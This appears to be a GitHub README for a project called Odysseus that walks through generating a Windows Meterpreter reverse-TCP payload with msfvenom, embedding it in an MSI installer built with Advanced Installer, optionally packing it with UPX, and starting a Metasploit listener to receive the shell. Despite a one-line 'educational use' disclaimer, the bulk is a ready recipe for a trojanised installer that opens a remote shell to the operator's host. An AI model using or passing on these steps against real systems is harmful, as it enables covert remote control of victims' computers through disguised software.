 # Odysseus

## Overview

The Odysseus project demonstrates the integration of `msfvenom` and `Advanced Installer` to create a software package with embedded payloads. This guide outlines the process of generating a malicious `.exe` with `msfvenom` and then packaging it into an installer using `Advanced Installer`.

**Important:** This project is intended for educational and ethical use only. Always ensure that you have explicit permission before using or demonstrating any tools or techniques that could potentially be harmful.

## Features

- Creation of a malicious `.exe` file using `msfvenom`.
- Packaging of the `.exe` file into an installer using `Advanced Installer`.
- Detailed instructions and screenshots for each step.

## Prerequisites

Before you start, ensure you have the following tools installed:

- [Metasploit Framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- [Advanced Installer](https://www.advancedinstaller.com/)
- [UPX](https://upx.github.io/) (optional for executable packing)

## Installation and Setup

### 1. Clone the Repository

Start by cloning the repository to your local machine:

```bash
git clone https://github.com/imnopro/Odysseus.git
cd Odysseus
```

### 2. Generate the Malicious .exe
Use msfvenom to create a malicious .exe payload. Replace LHOST and LPORT with your local IP address and port.

``` bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.9 LPORT=9002 -f exe -o payload.exe
```


### 3. Package the Payload with Advanced Installer

   -Open Advanced Installer:

   -Launch Advanced Installer and create a new project or open an existing one.

   -Add the Payload:

   -Navigate to the "Files and Folders" section. Add the payload.exe file to the desired location in the installer.

   -Configure Installation Settings:

   -Set the install location and other configuration settings as needed.

   -Build the Installer:

   -Click "Build" to generate the MSI installer.





   ## Running the Demonstration

### Start the Listener:

-Use netcat or Metasploit to listen for connections.

``` bash
msfconsole
use exploit multi/handler
set LHOST
set LPORT
set payload windows/x64/meterpreter/reverse_tcp
```

### Install the MSI:

Install the MSI package on a test machine to execute the payload, and then run the .exe to test functionality.

